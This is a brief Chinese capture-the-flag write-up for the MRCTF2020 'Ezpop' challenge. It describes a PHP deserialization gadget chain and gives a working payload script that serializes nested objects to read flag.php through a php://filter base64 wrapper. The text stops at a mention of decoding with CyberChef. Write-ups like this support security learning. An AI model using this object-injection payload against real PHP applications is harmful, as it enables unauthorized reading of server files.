

# [MRCTF2020]Ezpop

## Tag

PHP 反序列化

***

## Writeup

调用链为 `Show.__Construct->Show.__toString->Test.__get->Modifier.__invoke->Modifier.append`，Payload 如下：

```php
<?php
class Modifier {
    protected $var='php://filter/read=convert.base64-encode/resource=flag.php';
}

class Show {
    public $source;
    public $str;
}

class Test {
    public $p;
}

$a = new Show();
$a->source = new Show();
$a->source->str = new Test();
$a->source->str->p = new Modifier();
echo urlencode(serialize($a));
?>
```

Cyberchef 一解即可：

